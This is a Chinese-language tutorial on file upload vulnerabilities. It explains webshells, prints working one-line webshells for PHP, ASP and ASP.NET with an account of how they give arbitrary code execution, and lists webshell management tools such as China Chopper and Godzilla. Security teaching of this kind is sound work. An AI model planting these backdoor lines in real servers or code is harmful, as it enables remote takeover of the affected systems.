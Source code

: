 ## 文件上传漏洞

### 什么是文件上传漏洞？

文件上传漏洞是指==文件上传功能没有对上传的文件做合理严谨的过滤==，导致用户可以利用此功能，上传能被服务端解析执行的文件，并通过此文件获得执行服务端命令的能力（Webshell）。

### 什么是Webshell?

WebShell , 简称网页后门。简单来说它是运行在Web应用之上的远程控制程序。

- WebShell其实就是`一张网页`，由`PHP、JSP、ASP、ASP.NET`等这类web应用程序语言开发，但webShell并不具备常见网页的功能，例如登录、注册、信息展示等功能，一般会具备文件管理、端口扫描、提权、获取系统信息等功能。

### 常见的WebShell有哪些？

- 大马、小马、各种马…等
- 拥有较完整功能的webshell，我们一般称为`大马`。
- 功能简易的webshell称为`小马`。
- 除此之外还存在`一句话木马、菜刀马、脱库马`等等的名词，是对于webShell功能或者特性的简称。

## 一句话木马

### 什么是一句话木马？

### PHP

`<?php @eval($_POST[x]); ?>`

这就是最简单的一句话木马。

- `$_POST[x]`: 获取 `POST`请求参数中X的值。例如`POST`请求中传递 `x=phpinfo();`，那么 `$_POST[x]`就等同于`phpinfo();`
- `eval（）`将字符串当做PHP代码去执行。例如 `eval('phpinfo();')`，其中 `phpinfo();`会被当做PHP代码去执行

```
<?php @eval($_POST[x]); ?>   实际上的传递过程是这样的
			↓
			↓			
			↓
<?php @eval('phpinfo();'); ?> 实际的语句是这样的
```

- 我们通过该webshell，传递任意PHP代码，让其去执行，从而达到任意代码执行。

### 其他常用的一句话木马

- ### ASP

`<%eval request("x")%>`

- ### ASP.NET

`<%@ Page Language="Jscript"%><%eval (Request.Item["x"],"unsafe");%>`

这些一句话木马的本质是一样的，不同环境要用不同的一句话木马。

## 常用 WebShell 管理工具

- 中国菜刀
- 中国蚁剑
- 冰蝎
- 哥斯拉
- 其他工具